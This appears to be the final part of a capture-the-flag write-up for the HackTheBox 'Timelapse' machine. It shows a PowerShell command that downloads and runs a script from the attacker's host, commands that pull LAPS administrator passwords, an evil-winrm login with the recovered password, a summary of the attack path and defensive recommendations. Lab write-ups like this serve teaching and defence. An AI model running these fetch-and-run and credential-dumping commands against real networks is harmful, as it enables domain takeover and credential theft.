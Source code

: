 We start a simple Python HTTP server to make the script available to the victim machine:

![Python HTTP Server](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/python_server.png)

``` powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.7/Get-LAPSPasswords.ps1') Get-LAPSPasswords
```

![LAPS Script Execution](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/LAPS_executed_in_legacyy_user.png)

💡 **Note:** In a real engagement, `AdmPwd.PS` cmdlets like `Get-AdmPwdPassword` can be used instead:

``` powershell
Find-AdmPwdExtendedRights -Identity 'Domain Controllers' Get-AdmPwdPassword -ComputerName DC01
```

---

### 5.3 Authenticating as Domain Admin

Test retrieved password:

``` bash
evil-winrm -i 10.10.11.152 -u 'Administrator' -p 'iLZZ!2zt/)]s#@6+-#L@}Yc6' -S
```

![Root Flag](GitHubv2/HackTheBox/EASY/Timelapse/screenshots/root_flag.png)

The `root.txt` flag is found under `TRX\Desktop`, accessible due to Domain Admin privileges.

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. **SMB Enumeration** → Discovered `winrm_backup.zip` in `Shares`.
2. **ZIP Cracking** → Extracted `.pfx` file.
3. **PFX Cracking** → Retrieved certificate and key.
4. **WinRM over SSL** → Logged in as `legacyy`.
5. **Credential Harvesting** → Found `svc_deploy` credentials in PowerShell history.
6. **LAPS Abuse** → Retrieved Domain Admin password.
7. **Domain Admin Access** → Retrieved root flag.    

---

## Defensive Recommendations

- Restrict SMB share permissions and remove sensitive files from public shares.
- Use strong, unique passwords for backups and certificates.
- Regularly clear PowerShell history.
- Limit membership of `LAPS_Readers` group.
- Monitor for unusual WinRM authentication using certificates.
